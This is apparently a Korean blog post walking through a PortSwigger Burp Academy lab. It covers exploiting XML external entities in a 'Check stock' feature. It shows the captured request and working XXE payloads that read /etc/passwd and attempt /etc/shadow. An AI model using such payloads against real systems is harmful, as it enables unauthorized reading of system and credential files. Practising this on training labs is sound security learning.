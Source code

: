 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - Exploiting XXE using external entities to retrieve files"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, XXE]
toc: true
---
```


# 개요
- 문제명: Exploiting XXE using external entities to retrieve files
- 주소: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files
- 난이도: Apprentice (Easy)

## 랩설명
- Check stock 기능은 XML 입력을 파싱한 결과를 (에러를 포함해서) 돌려준다고 한다. 
- XML external entiry 를 삽입해서 /etc/passwd 파일의 내용을 읽으면 성공이다.   

```
This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.
```


## 취약점이 있는 곳 찾기
상품 상세 페이지에서 `Check stock` 버튼이 있는 것을 찾았다. 

![Check stock기능](/images/burp-academy-xxe-1-1.png)

버튼을 클릭하면 다음 요청이 전송된다. 

```
POST /product/stock HTTP/1.1
Host: 0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Cookie: session=1uOtwtnBX2Udo4b3VfYEXUpYiZuR7xja
Content-Length: 107
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52000f032ecba6c08c8b1900120054.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7onnection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

HTTP 응답은 다음과 같다. 
```
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 2

94
```

POST 요청의 XML 바디 부분에 XXE 공격 페이로드를 넣으면 될 것 같다. 

## 1차 시도 
https://github.com/payloadbox/xxe-injection-payload-list
를 참고해서 
`<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>` 를 추가해서 보내봤다. 

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY foo SYSTEM "file:///etc/shadow"> ]>
<stockCheck>
    <productId>1</productId>
    <storeId>1</storeId>
</stockCheck>
```

200 응답이 되돌아왔다. 뭔가 잘못된 것 같다. 

## 2차 시도 
아, 페이로드에 `&foo;` 로 출력해주는 부분이 없었다. 다음 페이로드로 시도해보자 /etc/passwd의 내용이 돌아왔다. 

``` 
<!DOCTYPE test [<!ENTITY foo SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&foo;</productId>
    <storeId>1</storeId>
</stockCheck>
```

![Check stock기능](/images/burp-academy-xxe-1-3.png)



![Check stock기능](/images/burp-academy-xxe-1-2.png)